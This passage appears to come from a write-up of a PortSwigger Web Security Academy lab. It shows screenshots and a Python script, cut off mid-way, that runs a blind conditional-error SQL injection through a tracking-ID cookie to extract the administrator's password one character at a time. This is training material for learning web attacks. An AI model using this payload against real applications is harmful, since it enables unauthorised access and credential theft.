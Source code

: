 
![](assets/Pasted%20image%2020251011025222.png)

![](assets/Pasted%20image%2020251011025303.png)

![](assets/Pasted%20image%2020251011025357.png)

![](assets/Pasted%20image%2020251011025426.png)


```python
#!/usr/bin/env python3

import requests
from string import ascii_lowercase, digits

def main():

	url = 'https://0a9900a203b9686d806ba88300db0081.web-security-academy.net/'
	trackingid = 'YOUR_TRACKINGID'
	chars = ascii_lowercase + digits
	position = 1
	password = ''

	try:
		while True:
			for character in chars:
			
				payload = f"""{trackingid}'||(SELECT CASE WHEN SUBSTR(password,{position},1)='{character}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'"""
				
				cookie = {
```